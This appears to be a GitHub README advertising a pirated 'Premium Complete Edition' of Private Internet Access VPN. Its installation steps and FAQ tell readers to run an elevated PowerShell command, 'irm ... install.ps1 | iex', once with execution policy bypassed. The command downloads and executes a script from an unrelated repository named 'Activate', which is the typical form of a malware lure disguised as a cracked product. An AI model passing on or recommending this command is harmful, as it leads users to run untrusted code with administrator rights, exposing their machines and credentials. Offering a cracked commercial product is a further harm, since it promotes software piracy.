

<div align="center">


<br>


# Private Internet Access Premium Complete Edition
**WireGuard · Global nodes · No-logs policy**
<br>
**WireGuard · Global nodes · No-logs policy**
<br>
Premium · Pro · Complete · Windows



**PIA Premium complete — WireGuard and OpenVPN, all global nodes, split tunneling and MACE blocker enabled.**

</div>

---

> Connect privately through worldwide VPN nodes — premium PIA features enabled for secure daily browsing.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🌍 **Global servers** — Connect through premium locations worldwide.
🔒 **Encrypted tunnel** — Secure browsing and app traffic on Windows.
⚡ **Stable desktop client** — Optimized for Windows 10/11 daily use.
🛡️ **Privacy toolkit** — Pro settings and profiles included.
📦 **Offline-ready client** — Works after one-time setup.
🖥️ **Windows native** — Built for 64-bit desktops.
⚙️ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB minimum |
| **Disk** | 2 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB minimum, 2 gb free space.
</details>


TAGS
private-internet-access, pia-vpn, pia, vpn, vpn-client, wireguard, openvpn, secure-vpn, privacy-vpn, vpn-software, internet-privacy, anonymous-vpn, vpn-service, network-security, online-privacy
